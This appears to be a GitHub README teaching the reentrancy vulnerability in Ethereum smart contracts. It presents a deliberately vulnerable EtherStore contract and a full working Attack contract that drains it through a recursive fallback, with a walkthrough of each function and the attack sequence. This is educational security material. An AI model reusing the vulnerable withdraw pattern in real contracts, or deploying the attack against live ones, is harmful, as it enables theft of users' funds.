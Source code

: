 # Reentrancy attack

This  is a simple Ethereum smart contract example to demonstrate the re-entrancy vulnerability in Solidity. The contract allows users to deposit and withdraw Ether, but it is vulnerable to re-entrancy attacks.

## Contract Overview
## EtherStore Contract
The EtherStore contract allows users to deposit and withdraw Ether. It maintains a balance mapping to track the Ether deposited by each user.

```bash 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract EtherStore {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 bal = balances[msg.sender];
        require(bal > 0);

        (bool sent,) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

```

## Functions
deposit():

Allows users to deposit Ether into the contract.
Updates the user's balance.

```bash
function deposit() public payable {
    balances[msg.sender] += msg.value;
}
```
withdraw():

Allows users to withdraw their deposited Ether.Ether is sent to the user and then balance is updated.

```bash
function withdraw() public {
    uint256 bal = balances[msg.sender];
    require(bal > 0);

    (bool sent,) = msg.sender.call{value: bal}("");
    require(sent, "Failed to send Ether");

    balances[msg.sender] = 0;
}
```

getBalance():

Helper function to check the balance of the contract.

```bash
function getBalance() public view returns (uint256) {
    return address(this).balance;
}
```

## Re-entrancy Vulnerability

The `withdraw` function in the `EtherStore` contract is vulnerable to re-entrancy attacks. This is because the Ether transfer is made before updating the user's balance. An attacker could exploit this by recursively calling the withdraw function before their balance is set to zero.


# Attack contract

The `Attack` contract is designed to exploit the re-entrancy vulnerability in the `EtherStore` contract. It does this by repeatedly calling the `withdraw` function of `EtherStore` before the original `withdraw` call completes, thereby draining Ether from the `EtherStore` contract.

```bash
contract Attack {
    EtherStore public etherStore;
    uint256 public constant AMOUNT = 1 ether;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= AMOUNT) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= AMOUNT);
        etherStore.deposit{value: AMOUNT}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

State Variables

```bash
EtherStore public etherStore;
uint256 public constant AMOUNT = 1 ether;
```

`etherStore`: This variable holds the reference to the deployed EtherStore contract that will be attacked.
`AMOUNT`: This constant defines the amount of Ether (1 Ether) that will be used in the attack.

Constructor

```bash
constructor(address _etherStoreAddress) {
    etherStore = EtherStore(_etherStoreAddress);
}
```

The constructor initializes the `etherStore` variable with the address of the deployed `EtherStore` contract.

Fallback Function

```bash
fallback() external payable {
    if (address(etherStore).balance >= AMOUNT) {
        etherStore.withdraw();
    }
}
```

`fallback()`: This special function is called when Ether is sent to the `Attack` contract and no other function matches the call. In this context, it's triggered when the `EtherStore` contract sends Ether to the `Attack` contract.
Condition Check: If the balance of `EtherStore` is greater than or equal to `AMOUNT` (1 Ether), the `withdraw` function of `EtherStore` is called again, recursively initiating another withdrawal.


Attack Function

```bash
function attack() external payable {
    require(msg.value >= AMOUNT);
    etherStore.deposit{value: AMOUNT}();
    etherStore.withdraw();
}
```

`attack()`: This function initiates the attack.
Check: Ensures that at least 1 Ether is sent with the call.
Deposit: Calls the deposit function of EtherStore to deposit 1 Ether into the EtherStore contract.
Withdraw: Calls the `withdraw` function of `EtherStore`, triggering the fallback function when Ether is sent back, causing a recursive withdrawal until the `EtherStore` contract is drained or the balance is below 1 Ether.



Helper Function

```bash
function getBalance() public view returns (uint256) {
    return address(this).balance;
}
```

`getBalance()`: This function allows anyone to check the balance of the Attack contract.


# Attack Sequence

1. Deployment
Deploy the EtherStore contract.
Deploy the Attack contract with the address of the deployed EtherStore contract.

2. Initiate Attack:
Call the attack function on the Attack contract, sending at least 1 Ether.
The Attack contract deposits 1 Ether into the EtherStore contract using the deposit function.
The Attack contract then calls the withdraw function on the EtherStore contract.
The EtherStore contract attempts to send 1 Ether back to the Attack contract.
The fallback function of the Attack contract is triggered by the Ether transfer.
If the balance of EtherStore is still at least 1 Ether, the withdraw function is called again, causing a re-entrant call and repeating the process.




3.Draining Ether
The process continues recursively, draining Ether from the `EtherStore` contract until its balance is less than 1 Ether or the gas limit is reached.

Summary

The `Attack` contract exploits the re-entrancy vulnerability in the `EtherStore` contract by using a fallback function to recursively call the `withdraw` function, allowing it to drain the `EtherStore` contract of its Ether balance. 


